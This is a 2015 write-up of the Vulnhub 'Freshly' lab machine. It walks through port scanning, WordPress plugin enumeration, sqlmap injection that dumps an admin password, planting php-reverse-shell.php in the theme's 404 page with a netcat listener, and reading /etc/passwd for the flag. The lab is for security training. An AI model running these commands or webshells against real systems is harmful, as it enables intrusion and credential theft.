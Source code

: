 Vulnhub's 'TopHatSec Freshly'
#############################

:title: Vulnhub's 'TopHatSec Freshly'
:date: 2015-04-11T00
:modified: 2015-04-11 21
:tags:


This is my first writeup of a `Vulnhub <https://vulnhub.com>`_ wargame: Freshly.

The challenge is:

    The goal of this challenge is to break into the machine via 
    the web and find the secret hidden in a sensitive file. 

Go grab the image and follow along.

First I need to determine the image's IP address and what services it is running:

.. code-block:: console

	root@kali:~# nmap -sn 192.168.56.0/24
	
	Starting Nmap 6.47 ( http://nmap.org ) at 2015-04-10 18:19 BST
	Nmap scan report for 192.168.56.1
	Host is up (0.00019s latency).
	MAC Address: 0A:00:27:00:00:00 (Unknown)
	Nmap scan report for 192.168.56.100
	Host is up (0.00088s latency).
	MAC Address: 08:00:27:F7:1C:75 (Cadmus Computer Systems)
	Nmap scan report for 192.168.56.103
	Host is up (0.00036s latency).
	MAC Address: 08:00:27:F2:73:82 (Cadmus Computer Systems)
	Nmap scan report for 192.168.56.102
	Host is up.
	Nmap done: 256 IP addresses (4 hosts up) scanned in 1.76 seconds
	root@kali:~# nmap -p- 192.168.56.103
	
	Starting Nmap 6.47 ( http://nmap.org ) at 2015-04-10 18:19 BST
	Nmap scan report for 192.168.56.103
	Host is up (0.00026s latency).
	Not shown: 65532 closed ports
	PORT     STATE SERVICE
	80/tcp   open  http
	443/tcp  open  https
	8080/tcp open  http-proxy
	MAC Address: 08:00:27:F2:73:82 (Cadmus Computer Systems)
	
	Nmap done: 1 IP address (1 host up) scanned in 6.46 sconds
	

So I can see the host is at :code:`192.168.56.103` and has ports *80, 443, and 8080*
open. Browsing to the address presents an animated gif. 

.. image:: "http://i.imgur.com/qgkgkgg.png"


My initial reaction is
to look at the source, but here I only see the :code:`<img>` tag and the image filename.
The image filename could be useful later, but right now I see no use for it.

In that case let's see if the SSL port holds anything more interesting.

.. image:: "http://i.imgur.com/wvHo8ru.png"


Nice, looks like I'm getting somewhere. I follow this link to a wordpress site
which sells candy. Generally browsing the site I notice it's a Bitnami install
of a Wordpress site, running a few plugins. 

.. image:: "http://i.imgur.com/SHEXup3.png"


Before I start work on that, let me just see what's at port *8080*. Ah, it's a 
non *https* version of the wordpress site. I'm going to use that instead
of the *https* version to avoid any certificate issues and generally make life
a bit easier.

Using :code:`wpscan` I can find out which of the installed plugins have vulnerabilities.

.. code-block:: console

	root@kali:~# wpscan -u http://192.168.56.103:8080/wordpress --enumerate vp
	_______________________________________________________________
	        __          _______   _____                  
	        \ \        / /  __ \ / ____|                 
	         \ \  /\  / /| |__) | (___   ___  __ _ _ __  
	          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
	           \  /\  /  | |     ____) | (__| (_| | | | |
	            \/  \/   |_|    |_____/ \___|\__,_|_| |_|
	
	        WordPress Security Scanner by the WPScan Team 
	                       Version 2.6
	          Sponsored by Sucuri - https://sucuri.net
	   @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
	_______________________________________________________________
	
	[+] URL: http://192.168.56.103:8080/wordpress/
	[+] Started: Fri Apr 10 18:42:00 2015
	
	[!] The WordPress 'http://192.168.56.103:8080/wordpress/readme.html' file exists exposing a version number
	[!] Full Path Disclosure (FPD) in: 'http://192.168.56.103:8080/wordpress/wp-includes/rss-functions.php'
	[+] Interesting header: SERVER: Apache
	[+] Interesting header: X-FRAME-OPTIONS: SAMEORIGIN
	[+] XML-RPC Interface available under: http://192.168.56.103:8080/wordpress/xmlrpc.php
	
	[+] WordPress version 4.1 identified from meta generator
	
	[+] Enumerating installed plugins (only vulnerable ones) ...
	
	   Time: 00:01:40 <============================================> (952 / 952) 100.00% Time: 00:01:40
	
	[+] We found 4 plugins:
	
	[+] Name: cart66-lite - v1.5.3
	 |  Location: http://192.168.56.103:8080/wordpress/wp-content/plugins/cart66-lite/
	 |  Readme: http://192.168.56.103:8080/wordpress/wp-content/plugins/cart66-lite/readme.txt
	
	[!] Title: Cart66 Lite <= 1.5.3 - SQL Injection
	    Reference: https://wpvulndb.com/vulnerabilities/7737
	    Reference: https://research.g0blin.co.uk/g0blin-00022/
	    Reference: http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-9442
	[i] Fixed in: 1.5.4
	
	[+] Name: google-analytics-for-wordpress - v5.3.1
	 |  Location: http://192.168.56.103:8080/wordpress/wp-content/plugins/google-analytics-for-wordpress/
	 |  Readme: http://192.168.56.103:8080/wordpress/wp-content/plugins/google-analytics-for-wordpress/readme.txt
	
	[!] Title: Google Analytics by Yoast 5.3.2 - Cross-Site Scripting (XSS)
	    Reference: https://wpvulndb.com/vulnerabilities/7838
	    Reference: http://packetstormsecurity.com/files/130716/
	    Reference: http://osvdb.org/119334
	
	[+] Name: proplayer - v4.7.9.1
	 |  Location: http://192.168.56.103:8080/wordpress/wp-content/plugins/proplayer/
	 |  Readme: http://192.168.56.103:8080/wordpress/wp-content/plugins/proplayer/readme.txt
	
	[!] Title: ProPlayer 4.7.9.1 - SQL Injection
	    Reference: https://wpvulndb.com/vulnerabilities/6912
	    Reference: http://osvdb.org/93564
	    Reference: http://www.exploit-db.com/exploits/25605/
	
	[+] Name: wptouch - v3.6.6
	 |  Location: http://192.168.56.103:8080/wordpress/wp-content/plugins/wptouch/
	 |  Readme: http://192.168.56.103:8080/wordpress/wp-content/plugins/wptouch/readme.txt
	
	[!] Title: WPtouch <= 3.6.6 - Unvalidated Open Redirect
	    Reference: https://wpvulndb.com/vulnerabilities/7837
	    Reference: https://wordpress.org/plugins/wptouch/changelog/
	[i] Fixed in: 3.7
	
	[+] Finished: Fri Apr 10 18:43:48 2015
	[+] Memory used: 9.027 MB
	[+] Elapsed time: 00:01:48
	

There's a few there, so I'll look at each on in turn to see how easy it is to
exploit, and what it might yield.

* Cart66 Lite <= 1.5.3 - SQL Injection 

    This requires the user to be logged in, and seeing as I don't have a login
    I won't get very far with this. 

* Google Analytics by Yoast 5.3.2 - Cross-Site Scripting (XSS) ###

    This requires admin access to the site, in order to configure the plugin.
    Another dead end.

* ProPlayer 4.7.9.1 - SQL Injection

    Not much luck with this. Although it doesn't require a login, I wasn't
    successful with getting anything out of it.

* WPtouch <= 3.6.6 - Unvalidated Open Redirect

    I doubt that an unvalidated redirect will be of much use here.
    
Ok, thinking cap back on.... I need a different angle of attack.

Revisiting the main wordpress site there is something a bit unusual.

.. image:: "http://i.imgur.com/2ddRfdF.png"


Did I miss something? Did I get done by a Jedi mindtrick? Let's see. I'll 
head back to the main site and try and find some other pages with *DirBuster*.

This is how I set it up

.. image:: "http://i.imgur.com/auVPaoO.png"


Using this list I got lucky and received two interesting hits after short while

.. image:: "http://i.imgur.com/l647X5u.png"


I've decided to hold back on on the :code:`phpmyadmin` and investigate the :code:`login.php`
first. This is what lies at the end of that URL

.. image:: "http://i.imgur.com/c8aSx4n.png"


I could just start attacking this with various SQLi strings, but the
beauty of attacking a virtual machine is that I can use tools without the fear
of breaking someone else's stuff. Roll out :code:`sqlmap` and let's see what we can find:

.. code-block:: console

	root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit"
	
	<snip>
	
	POST parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
	
	<snip>
	
	POST parameter 'password' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
	
	<snip>
	
	[12:17:03] [INFO] the back-end DBMS is MySQL
	web server operating system: Linux Ubuntu
	web application technology: Apache 2.4.7, PHP 5.5.9
	back-end DBMS: MySQL 5.0.11
	

I've removed some of the output for clarity, but I can see
that there's possibility of a blind SQL injection for both :code:`user` and
:code:`password` and that it's a MySQL databse. Great. 
We can carry on using :code:`sqlmap` to try and discover
what tables there are and if we can find any useful information.

First I'll get a list of databases on the system. This process takes a little while,
so when it asks "*do you want sqlmap to try to optimize value(s) for DBMS delay 
responses (option '--time-sec')? [Y/n]*" answer *YES*. It will be done quicker.

.. code-block:: console

	root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit" --dbms=mysql --dbs
	
	<snip>
	
	[12:20:19] [INFO] fetching database names
	[12:20:19] [INFO] fetching number of databases
	[12:20:19] [INFO] retrieved: 7
	[12:20:21] [INFO] retrieved: information_schema
	[12:21:36] [INFO] retrieved: login
	[12:21:59] [INFO] retrieved: mysql
	[12:22:20] [INFO] retrieved: performance_schema
	[12:23:33] [INFO] retrieved: phpmyadmin
	[12:24:18] [INFO] retrieved: users
	[12:24:43] [INFO] retrieved: wordpress8080
	available databases [7]:
	[*] information_schema
	[*] login
	[*] mysql
	[*] performance_schema
	[*] phpmyadmin
	[*] users
	[*] wordpress8080
	
	[12:25:44] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.103'
	
	[*] shutting down at 12:25:44

It found seven databases, amongst which is an interesting one: :code:`wordpress8080`. 
This seems to be the wordpress database, so I can start attacking that and see
if I can get the *admin* account. The :code:`login` and :code:`users` databases also look 
interesting, so let's take a look at those later. Additionally, if I can get
a login, especially an *admin* one, I could try to exploit the plugins later on.
After all, it does say there are multiple ways into this VM.

.. code-block:: console

	root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit" --dbms=mysql --tables -D wordpress8080
	
	<snip>
	
	Database: wordpress8080
	[1 table]
	+-------+
	| users |
	+-------+
	
	root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit" --dbms=mysql --dump -T users -D wordpress8080
	
	<snip>
	
	Database: wordpress8080
	Table: users
	[1 entry]
	+----------+---------------------+
	| username | password            |
	+----------+---------------------+
	| admin    | SuperSecretPassword |
	+----------+---------------------+

The admin password for the wordpress site, excellent. As for the other tables,
I didn't find anything useful in them, so I won't post the output here. In that case
I might aswell just login to the wordpress site now. Basically I have full control 
of the wordpress site now, so what should I do? How does a PHP shell sound? Good?
Alright then... :code:`cd /usr/share/webshells/php` and I'm going to use the 
:code:`php-reverse-shell.php` and replace the site's *404* with that.

To do that I need to edit the theme in the admin section, and just
paste in the contents. The I need to open a listening :code:`netcat` session and
browse to a non-existant page on the site.

.. code-block:: console

	root@kali:/usr/share/webshells/php# nc -lvnp 1337
	listening on [any] 1337 ...
	connect to [192.168.56.102] from (UNKNOWN) [192.168.56.103] 43875
	Linux Freshly 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
	 19:36:34 up  5:45,  0 users,  load average: 0.08, 0.03, 0.05
	USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
	uid=1(daemon) gid=1(daemon) groups=1(daemon)
	/bin/sh: 0: can't access tty; job control turned off
	$ cd /etc 
	$ cat passwd
	root:x:0:0:root:/root:/bin/bash
	daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
	bin:x:2:2:bin:/bin:/usr/sbin/nologin
	sys:x:3:3:sys:/dev:/usr/sbin/nologin
	sync:x:4:65534:sync:/bin:/bin/sync
	games:x:5:60:games:/usr/games:/usr/sbin/nologin
	man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
	lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
	mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
	news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
	uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
	proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
	list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
	irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
	gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
	nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
	libuuid:x:100:101::/var/lib/libuuid:
	syslog:x:101:104::/home/syslog:/bin/false
	messagebus:x:102:105::/var/run/dbus:/bin/false
	user:x:1000:1000:user,,,:/home/user:/bin/bash
	mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
	candycane:x:1001:1001::/home/candycane:
	# YOU STOLE MY SECRET FILE!
	# SECRET = "NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"

I had to poke around the file system a bit to find this, but :code:`/etc/passwd` is 
usually a *go-to* file if you get access to a system. Otherwise I'd still
be looking for the file now :)

So that's one way to do it.

This seems to be the most direct route in. It might be worth exploring the 
vulnerabilities on the plugins, but it's late now, so I'll save that for
another time.
